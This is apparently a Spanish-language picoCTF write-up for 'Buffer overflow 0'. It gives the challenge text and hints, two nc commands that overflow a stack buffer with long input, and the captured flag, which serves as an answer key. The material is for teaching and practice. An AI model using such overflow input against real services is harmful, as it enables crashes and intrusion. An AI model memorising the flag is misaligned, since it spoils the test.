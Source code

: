 # Buffer overflow 0
## Descripcipción
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c). And connect with it using:`nc saturn.picoctf.net 61481`
## Pistas
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?
## Solucion
```
------------------------------------------------------------------------------
								SOLUCIÓN 1
------------------------------------------------------------------------------
┌──(kali㉿kali)-[~/Documents/binary/buffer0]
└─$ nc saturn.picoctf.net 61481
Input: 111111111111111111111 << SON 21 UNOS
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}


------------------------------------------------------------------------------
								SOLUCIÓN 2
------------------------------------------------------------------------------
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 61481 <<< $(python3 -c "print('A'*200)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
```
## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}
## Notas adicionales
## Referencias
https://www.youtube.com/watch?v=4EBqN0X8kEw
https://www.youtube.com/watch?v=LXvmo6p4gF8&t=1s
